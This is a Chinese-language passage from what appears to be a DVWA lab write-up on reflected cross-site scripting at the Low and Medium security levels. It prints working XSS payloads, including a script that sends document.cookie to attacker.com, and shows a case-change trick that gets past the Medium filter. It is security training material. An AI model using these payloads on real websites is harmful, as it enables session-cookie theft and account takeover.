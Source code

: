 随机数+时间戳+固定字符串"Impossible"，再进行sha1运算，最大程度上保证了强对话。



## XSS (Reflected)

### Security Low

![image-20250110103502991](../../_media/image-20250110103502991.png)

没啥好说，没有过滤，直接提交

```
<script>alert('xss');</script>
```

直接就可以了

这里模拟拿到cookie

```
<script>alert(document.cookie);</script>
```





危害就是可以把cookie发到某个远程服务器上

```
<script>document.location='http://attacker.com/?cookie=' + document.cookie;</script>
```



### Security Medium

还是上面那个最简单的payload，然后看输出情况

![image-20250110104446410](../../_media/image-20250110104446410.png)

这种可能是检测`script`、`<>`，一个个试嘛，大写、双写、加号、转码

直接大写绕过

```
<Script>alert('xss');</Script>
```



```
<Script>alert(document.cookie);</Script>
```
